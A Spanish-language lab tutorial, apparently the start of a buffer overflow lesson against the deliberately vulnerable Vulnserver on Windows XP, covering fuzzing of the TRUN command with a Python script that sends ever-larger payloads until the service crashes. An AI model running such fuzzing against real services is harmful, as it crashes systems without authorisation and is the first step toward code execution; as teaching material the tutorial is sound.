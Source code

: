 

<p><a href="https://github.com/dplastico/bufferclase">https://github.com/dplastico/bufferclase</a></p>



<p>El programa al ejecutarse no muestra nada más que el programa ejecutándose y esperando conexiones en el puerto 9999 SI revisamos (en esta oportunidad vía netcat) la conexión hacia la IP, en este caso 192.168.0.184.</p>



<p>El ejercicio lo desarrollaremos sobre el ya famoso (y sin soporte) Windows XP, eso es ya que como queremos explicar Buffer Overflow en su forma más simple (sin protecciones de memoria) usamos este SO el cual presenta muy poco de lo anterior y por tanto nos hara mas facil la tarea, esto no quita que para ambientes más avanzados, la tarea no sea la misma o similar, la teoría de un BOF en su base es siempre la misma. Además usaremos la opción TRUN, ya que el programa presenta varias vulnerabilidades para explotar, pero nosotros nos concentramos en la anterior, podemos probar la conexión a vulnserver, ejecutando netcat:</p>



<figure class="wp-block-image"><img src="https://lh3.googleusercontent.com/BZzVotBUCk-pUhJpb1CgpxEOL5uTfYcxkRc9CWuassHb2GmxDcwVgyY0dGWwEFz3TCo1uMAbtntjn0oCnvM0_D8-kHctP9hU8hdFF2Jv2keNCiSNiL1FYFGWNf-ZAlP7DQSR9O55" alt="" /></figure>



<figure class="wp-block-image"><img src="https://lh6.googleusercontent.com/Gmjg8oUU0K6MzqZsvzh-BT4UizTHmETMvJOmf95mjW7u-PhzUw1rZaAaI6Ifb265J7w0v5oEho83n4iBF8Guvr89ep9LZq4SK5Fu7aYf5fdM2JNcT1I0mqFp8_N-i3mOQdSNQrSo" alt="" /></figure>



<p>FUZZ: qué es y cómo funciona?<br></p>



<p>Para no ahondar revisemos la definición de wikipedia:<br></p>



<p>“ es una técnica de pruebas de software, a menudo automatizado o semiautomatizado, que implica proporcionar datos inválidos, inesperados o aleatorios a las entradas de un programa de ordenador”<br></p>



<p>Por lo tanto para poder comprobar que existe un overflow debemos, en este caso, enviar una cantidad de caracteres, que generen un "crush", para eso podemos ejecutar el siguiente script en python que nos ayudará a determinar la cantidad de bytes (caracteres en este caso) que enviamos para generar el crush, esto nos ayudará para tener un número que nos permita mantener la consistencia a la hora de crear nuestro exploit</p>



<pre class="wp-block-code"><code>#!/usr/bin/python

import socket
import sys

#Fuzz parametro TRUN
pre_buff= "TRUN /../: "
buff ="A" * 100
end_buff = '\r\n'
#el loop
while True:
    buff = buff+"A"*100
    final_buff = pre_buff+buff+end_buff
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('192.168.1.193', 9999))
        print "Fuzzeando con  %d bytes" % len(buff)
        sock.send(final_buff)
        sock.recv(1024)
        sock.close()
    except:
        print "Server deja de responder a los %d bytes enviados" % len(buff)
        exit()